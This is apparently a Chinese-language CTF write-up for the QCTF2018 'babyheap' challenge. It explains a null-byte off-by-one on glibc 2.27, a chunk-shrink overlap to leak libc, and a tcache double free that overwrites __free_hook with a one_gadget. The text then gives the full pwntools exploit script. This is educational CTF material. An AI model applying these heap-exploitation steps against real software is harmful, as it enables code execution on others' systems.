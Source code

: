 # QCTF2018 babyheap
## Author: Wenhuo
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这题是有tcache机制的libc-2.27的题，为此特意装了一个Ubuntu18（啊还是屈服了，特效真好看真香）。不扯淡了，先放一个tcache的[学习资料](https://www.secpulse.com/archives/71958.html)，嗯这就够了。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>程序逻辑很简单，一眼就看出null byte off by one。因为有tcache的机制(**注意在tcache的堆小于7个，而且不大于0x408**)所以做法特殊一些，这里用shrink chunk的方法来做，这里有个差不多做法的，有[图解](https://bbs.pediy.com/thread-225973.htm)（其实tcache里把小于0x408的堆都看成是不安全的fastbin这样理解会不会更简单些，溜了溜了）。</font></br>

leak
=====

```python
#----------------------------
# leak, leak, step the first
# null byte off by one to chunk-shrink overlapping

add(0x18,'\n')                          #0
add(0x500,'a'*0x4f0+p64(0x500)+'\n')    #1
add(0x420,'\n');                        #2
add(0x18,'\n');                         #3

delete(1)
delete(0)
add(0x18,'a'*0x18)                      #0
add(0x480,'\n')                         #1
add(0x60,'\n')                          #4
delete(1)
delete(2)

add(0x480,'\n')                         #1
show()
rv('4 : ')
libc_base=u64(p.recv(6)+2*'\x00')-0x3ebca0
log.info(hex(libc_base))
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>根据tcache的缓存机制，直接double free都不带检查的，所以后续就很常规了：</font></br>

```python
#----------------------------
# easy double free and pwned!

add(0x60,'\n')                          #2
delete(2)
delete(4)
add(0x60,p64(free_hook+libc_base)+'\n')
add(0x60,p64(free_hook+libc_base)+'\n')
add(0x60,p64(one_gadget+libc_base)+'\n')

delete(0)
p.interactive()

```

Exploit
======

```python
from pwn import *

DEBUG=1

p=process('./babyheap',env={'LD_PRELOAD':'./libc-2.27.so'})
elf=ELF('./libc-2.27.so') 

free_hook=elf.symbols['__free_hook']
one_gadget=0x4F322

if DEBUG == 1:
    context.log_level='debug'
    gdb.attach(p)

def rv(c):
    p.recvuntil(c)

def sd(c):
    p.send(c)

def sl(c):
    p.sendline(c)

def add(size,content):
    rv('choice :\n')
    sl('1')
    rv('Size: \n')
    sl(str(size))
    rv('Data: \n')
    sd(content)

def delete(index):
    rv('choice :\n')
    sl('2')
    rv('Index: \n')
    sl(str(index))

def show():
    rv('choice :\n')
    sl('3')

#----------------------------
# leak, leak, step the first
# null byte off by one to chunk-shrink overlapping

add(0x18,'\n')                          #0
add(0x500,'a'*0x4f0+p64(0x500)+'\n')    #1
add(0x420,'\n');                        #2
add(0x18,'\n');                         #3

delete(1)
delete(0)
add(0x18,'a'*0x18)                      #0
add(0x480,'\n')                         #1
add(0x60,'\n')                          #4
delete(1)
delete(2)

add(0x480,'\n')                         #1
show()
rv('4 : ')
libc_base=u64(p.recv(6)+2*'\x00')-0x3ebca0
log.info(hex(libc_base))

#----------------------------
# easy double free and pwned!

add(0x60,'\n')                          #2
delete(2)
delete(4)
add(0x60,p64(free_hook+libc_base)+'\n')
add(0x60,p64(free_hook+libc_base)+'\n')
add(0x60,p64(one_gadget+libc_base)+'\n')

delete(0)
p.interactive()

```